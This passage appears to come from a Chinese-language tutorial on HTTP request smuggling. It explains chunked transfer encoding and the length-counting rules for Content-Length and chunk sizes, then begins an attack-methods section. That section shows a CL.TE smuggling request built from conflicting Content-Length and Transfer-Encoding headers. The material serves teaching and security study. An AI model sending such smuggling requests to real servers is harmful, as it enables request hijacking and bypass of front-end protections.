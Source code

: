 ```
[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0][\r\n][\r\n]
```

在计算长度时注意这样的原则：

- CL需要将body中`\r\n`所占的2字节计算在内，而块长度要忽略块内容末尾表示终止的`\r\n`
- 请求头和body中空行不计入CL

测试用chunked发送

```
Wikipedia in\r\n\r\nchunks.
```

可以这样

```http
POST /xxx HTTP/1.1
Host: xxx
Content-Type: text/plain
Transfer-Encoding: chunked

4\r\n
Wiki\r\n
5\r\n
pedia\r\n
e\r\n
 in\r\n\r\nchunks.\r\n
0\r\n
\r\n
```

4是16进制数 后接2字节`\r\n`表示chunk-size，后接chunk-size大小的Wiki，后接两字节的`\r\n`表示chunk-data部分

第三部分数据

```
e\r\n
 in\r\n\r\nchunks.\r\n
```

e = 14 = 1(空格) + 2(in) + 4(\r\n*2) + 7(chunks.)

最后的`0\r\n\r\n`表示 chunk 部分结束

### 攻击方式

#### CL.TE

前端服务器处理`Content-Length`，后端服务器遵守RFC2616规定处理`Transfer-Encoding`

```http
POST / HTTP/1.1
Host: 1.com
Content-Length: 6
Transfer-Encoding: chunked

0

a
```
